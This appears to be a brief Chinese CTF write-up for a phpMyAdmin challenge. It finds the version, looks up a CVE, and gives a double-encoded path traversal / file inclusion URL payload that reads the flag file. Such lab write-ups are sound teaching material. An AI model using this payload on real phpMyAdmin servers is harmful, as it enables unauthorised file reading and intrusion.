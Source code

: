 #Web #phpmyadmin #Vulnerabilities 

```
/
```

![[Pasted image 20230508011106.png|1500]]

题目描述
---

> Vulnerability signin~

hint
---

> 不是sql哦~

---

是的这题不需要考虑phpMyAdmin是什么奇怪的玩意，也不需要考虑SQL注入之类的东西（test用户啥权限也没）

首先我们看一眼版本

![[Pasted image 20230508011543.png|300]]

然后让我们去[CVE](https://cve.mitre.org/cve/search_cve_list.html)上搜一搜

![[Pasted image 20230508012042.png|1500]]

![[Pasted image 20230508012629.png|800]]

![[Pasted image 20230508012642.png|800]]

```
/index.php?a=phpinfo();&target=db_sql.php%253f/../../../../../../flag
```

![[Pasted image 20230508230625.png|800]]